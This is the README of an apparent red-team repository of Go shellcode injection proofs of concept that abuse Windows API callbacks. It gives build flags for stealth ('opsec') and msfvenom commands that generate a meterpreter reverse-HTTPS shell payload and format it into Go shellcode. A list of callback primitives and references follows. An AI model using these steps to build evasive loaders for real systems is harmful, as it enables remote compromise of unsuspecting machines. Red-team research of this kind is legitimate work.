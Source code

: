 # Golang-Injection-Techniques
## Disclaimer
This repository presents a collection of already well-documented injection primitives, adapted to Go. The PoCs are not meant to evade competent AVs out-of-the-box as they have been around for quite some time now, but could be combined along with other techniques.

## Build
```
GOOS=windows go build -o DrawState.exe callbacks/DrawStateW.go

# Additional flags for opsec considerations
-ldflags -H=windowsgui  (do not pop any window)
-trimpath               (remove local path from final PE)
-ldflags="-s -w"        (shrink executable)
```
## Payload generation
The `hex` output of msfvenom was used as there was no golang buffer formatting
```
msfvenom --platform windows -a x64  -p windows/x64/exec CMD=calc.exe -f hex -o calc.hex
```
However these few lines allow to format manually 
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=127.0.0.1 LPORT=443 -f raw -o meterpreter.bin
cat meterpreter.bin | xxd -p | sed 's/.\{2\}/0x&, /g' > meterpreter.gohex

# Then in the template
var shellcode = []byte{
  // insert formatted shellcode here
}
```



## Callback injection primitives
The following callback injection primitives have been pushed.
```
- DrawState
- EnumChildWindows
- EnumDisplayMonitors
- EnumDateFormats
- EnumDesktops
- GrayString
- EnumFonts
- LineDDA              
- EnumFontFamilies
- CallWindowProc
- EnumTimeFormats
- EnumWindows
- EnumDesktopWindows
- EnumThreadWindows
- EnumSystemLocales
- EnumSystemGeoID
```

## Untested callback injection primitives 
```
- EnumSystemLanguageGroups
- EnumUILanguages
- EnumSystemCodePages
```
Many more are presented in the pentester's promiscuous notebook ([https://ppn.snovvcrash.rocks/red-team/maldev/code-injection](https://ppn.snovvcrash.rocks/red-team/maldev/code-injection))


### References
- [http://ropgadget.com/posts/abusing_win_functions.html](http://ropgadget.com/posts/abusing_win_functions.html)
- [https://github.com/Ne0nd0g/go-shellcode](https://github.com/Ne0nd0g/go-shellcode)
- [https://github.com/ChaitanyaHaritash/Callback_Shellcode_Injection](https://github.com/ChaitanyaHaritash/Callback_Shellcode_Injection)
- [https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/](https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/)

### Relevant resources
- [https://www.pinvoke.net](https://www.pinvoke.net)
- [https://ppn.snovvcrash.rocks/red-team/maldev/code-injection](https://ppn.snovvcrash.rocks/red-team/maldev/code-injection)
